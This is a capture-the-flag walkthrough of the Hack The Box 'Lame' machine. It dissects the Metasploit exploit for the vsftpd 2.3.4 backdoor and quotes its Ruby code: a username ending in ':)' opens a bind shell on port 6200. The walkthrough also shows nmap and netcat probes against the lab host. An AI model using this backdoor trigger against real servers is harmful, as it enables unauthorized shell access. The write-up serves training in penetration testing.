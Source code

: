 .. _Lame Exploitation:

Exploitation
============

+-------------+----------------------+
|**Reference**|:ref:`netcat <netcat>`|
|             |                      |
|             |:ref:`nmap <nmap>`    |
|             |                      |
|             |:ref:`SearchSploit`   |
+-------------+----------------------+


Time to test the mettle of the exploits we uncovered. As before, we'll start from the top.

.. index:: SearchSploit


vsftpd 2.3.4
------------
Using the ``-x`` flag with `SearchSploit`, let's examine the source code of the `vsftpd` exploit:

.. code-block:: none

    kali@kali:~/HTB/Lame$ searchsploit -x 17491
      Exploit: vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/17491
         Path: /usr/share/exploitdb/exploits/unix/remote/17491.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators

This exploit is written for `Metasploit`. It's not terribly complex, and with a little effort we can piece together what the exploit does. The most important section of code is the ``exploit`` function. Let's break it down.

The first part of the function connects to the target FTP service, then grabs the banner:

.. code-block:: ruby

    def exploit
    [...]
            # Connect to the FTP service port first
            connect

            banner = sock.get_once(-1, 30).to_s
            print_status("Banner: #{banner.strip}")

With the connection established, the script sends a specially-crafted username:

.. code-block:: ruby

            sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
            resp = sock.get_once(-1, 30).to_s
            print_status("USER: #{resp.strip}")

The ``#{rand_text_alphanumeric(rand(6)+1)}`` bit generates a string of one to six random alphanumeric characters. Let's substitute ``XXXX`` and see what the ``sock.put`` function is sending to the FTP server:

.. code-block:: none

    USER XXXX:)\r\n

Dissecting this, we can see that the script is issuing the ``USER`` command to authenticate with the remote FTP service. Next, it sends ``XXXX``, followed by ``:)`` (a smiley-face), followed by ``\r\n``, which tells the FTP server that the command is complete.

Based on this information, it looks like any username will do, as long as it's followed by the ``:)`` smiley.

After sending the crafted username, the script checks the response from the server. It checks whether the return value starts with ``530`` or ``331``, response codes which would signal the failure of the exploit attempt:

.. code-block:: ruby

            if resp =~ /^530 /
                    print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
                    disconnect
                    return
            end

            if resp !~ /^331 /
                    print_error("This server did not respond as expected: #{resp.strip}")
                    disconnect
                    return
            end

If the return value included neither of these failure codes, the script proceeds to send a randomly-generated password to the FTP service:

.. code-block:: ruby

            sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

But this password is irrelevant; simply by sending the appropriate ``USER`` and ``PASS`` commands, the exploit should have triggered the backdoor. In this case, the backdoor opens a bind shell on port 6200, so the script checks to see if that port is open:

.. code-block:: ruby

            # Do not bother reading the response from password, just try the backdoor
            nsock = self.connect(false, {'RPORT' => 6200}) rescue nil

If the port was opened successfully, the script connects and provides a command-line backdoor to the target:

.. code-block:: ruby

            if nsock
                    print_good("Backdoor service has been spawned, handling...")
                    handle_backdoor(nsock)
                    return
            end

            disconnect

    end

.. index:: nmap

Now that we know how the exploit works, we no longer need it. This exploit is simple enough that we can attempt it by hand. Recall that in our original port scan, port 6200 was not open. We can double-check this easily with `nmap`:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nmap -Pn -p 6200 10.10.10.3
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 14:45 EDT
    Nmap scan report for 10.10.10.3
    Host is up.

    PORT     STATE    SERVICE
    6200/tcp filtered lm-x

    Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds

.. index:: netcat

The port is marked as `filtered`, which means `nmap` could not tell whether the port was closed or open. Let's see if `netcat` can shed any light on the situation:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc -vn -w 3 10.10.10.3 6200
    (UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
